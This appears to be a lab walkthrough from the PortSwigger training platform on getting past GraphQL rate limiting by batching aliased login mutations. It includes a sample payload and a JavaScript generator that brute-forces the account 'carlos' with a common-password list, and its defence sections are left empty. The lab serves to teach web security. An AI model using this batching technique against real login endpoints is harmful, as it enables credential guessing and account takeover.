

## Bypassing GraphQL brute force protections

### Objective:
- The user login mechanism for this lab is powered by a GraphQL API. 
- The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.
- To solve the lab, brute force the login mechanism to sign in as carlos. Use the list of [authentication lab passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) as your password source.

### Security Weakness:

### Exploitation Methodology:

1. In Burp's browser, access the lab and select **My account**.
2. Attempt to log in to the site.
3. In Burp, go to **Proxy > HTTP history**. Note that login requests are sent as a GraphQL mutation.
4. Right-click the login request and select **Send to Repeater**.
5. In Repeater, attempt some further login requests. Note that after a short period of time the API starts to return a rate limit error.
6. Craft a request that uses aliases to send multiple login mutations in one message. See the lab instructions for a tip that will make this process less time-consuming.
    Bear the following in mind when constructing your request:
    - The list of aliases should be contained within a **`mutation {}`** type.
    - Each aliased mutation should have the username **`carlos`** and a different password from the authentication list.
    - If you are modifying the request that you sent to Repeater, delete the variable dictionary and **`operationName`** field from the request before sending. You can do this from Repeater's **Pretty** tab.
    - Ensure that each alias requests the **`success`** field, as shown in the simplified example below:
```js
	mutation { 
		bruteforce0:login(input:{password: "123456", username: "carlos"}) { 
			token 
			success 
		} 
		
		bruteforce1:login(input:{password: "password", username: "carlos"}) { 
			token 
			success 
		} 
		
		... 
		
		bruteforce99:login(input:{password: "12345678", username: "carlos"}) { 
			token 
			success 
		} 
	}
```

7. Click **Send**.
8. Notice that the response lists each login attempt and whether its login attempt was successful.
9. Use the search bar below the response to search for the string **`true`**. This indicates which of the aliased mutations was able to successfully log in as **`carlos`**.

10. Check the request for the password that was used by the successful alias.
11. Log in to the site using the **`carlos`** credentials to solve the lab.

#### Tip
The below example JavaScript builds a list of aliases corresponding to our list of authentication lab passwords and copies the request to your clipboard. To run this script:

1. Open the lab in Burp's browser.
2. Right-click the page and select **Inspect**.
3. Select the **Console** tab.
4. Paste the script and press Enter.

You can then use the generated aliases when crafting your request in Repeater.

```javascript
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`
.split(',').map((element,index)=>` 
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
	token 
	success 
	} 
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

### Insecure Code:

### Secure Code:
